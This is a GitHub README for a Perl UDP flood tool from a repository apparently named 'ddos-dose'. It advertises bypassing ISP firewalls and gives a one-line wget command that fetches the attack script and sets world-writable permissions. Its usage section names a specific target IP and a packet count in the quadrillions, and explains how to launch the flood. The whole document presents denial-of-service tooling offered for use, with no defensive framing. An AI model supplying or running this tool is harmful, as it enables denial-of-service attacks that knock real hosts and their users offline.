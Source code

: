 
## Features

- Generate Random UDP Traffic
- From Random Port
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl


## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp.pl && chmod 777 * && apt update -y && apt install perl -y

```
    

## Usage

```
Enter Target ---> 
my $target_host = "117.203.8.210"; (Line6)
```
```
You can edit Packet Size on Script --->
my $max_size = 100; (Line 7) Define the max packet size
my $min_size = 50;  (Line 8) Define the min packet size
```
```
You can set how much packet sent to Host? --->
my $packet_count = 1000000000000000; (Line9)
```
```
perl random-udp.pl
```


## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)


## Feedback

If you have any feedback, please reach out to us at n@dultr.in

